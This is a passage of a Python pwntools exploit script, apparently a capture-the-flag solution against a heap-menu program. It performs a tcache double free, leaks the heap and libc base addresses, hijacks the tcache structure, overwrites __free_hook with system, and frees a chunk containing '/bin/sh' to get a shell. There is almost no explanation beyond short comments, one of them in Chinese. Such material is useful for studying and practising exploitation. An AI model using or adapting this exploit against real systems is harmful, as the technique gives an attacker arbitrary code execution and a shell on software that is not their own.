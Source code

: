 ```python
    p.send(content)
    p.recvuntil(b"please input compary call:")
    p.send(b'123\x00')

def dump(index:int):
    cmd(2)
    p.sendline(str(index).encode())

def free(index:int):
    cmd(3)
    p.sendline(str(index).encode())

def exp():
    new(0x10, b'arttnba3') # idx 0
    new(0x10, b'arttnba3') # idx 1
    new(0x80, b'arttnba3') # idx 2
    new(0x10, b'/bin/sh\x00') # idx 3
    free(0)
    free(0)
    dump(0)
    p.recvuntil(b'name:\n')
    heap_leak = u64(p.recv(6).ljust(8, b'\x00'))
    heap_base = heap_leak & 0xfffffffff000
    log.success('heap base leak: ' + hex(heap_base))
    free(0)
    free(0)
    #gdb.attach(p)
    new(0x10, p64(heap_base + 0x10)) # idx 4
    #gdb.attach(p)
    new(0x10, b'\x00' + b'\x07' * 0xf) # idx 5, hijack the tcache
    #gdb.attach(p)
    # 0.content.fd -> base + 0x10, 5.content = base+0x10
    # every tcache bin is full (num=7) ,except 0x20(num=0)
    free(2)
    dump(2)
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 96
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.success('libc base leak: ' + hex(libc_base))
    free(0)
    free(0)
    new(0x10, p64(libc_base + libc.sym['__free_hook']))
    #gdb.attach(p)
    new(0x10, p64(libc_base + libc.sym['system']))
    # tcachebinis.0x20 = -2 ，也就是说即使计数的变量为0了，只要链表指针不空，就还能malloc
    gdb.attach(p)
    free(3)

    p.interactive()

if __name__ == '__main__':
    exp()
```
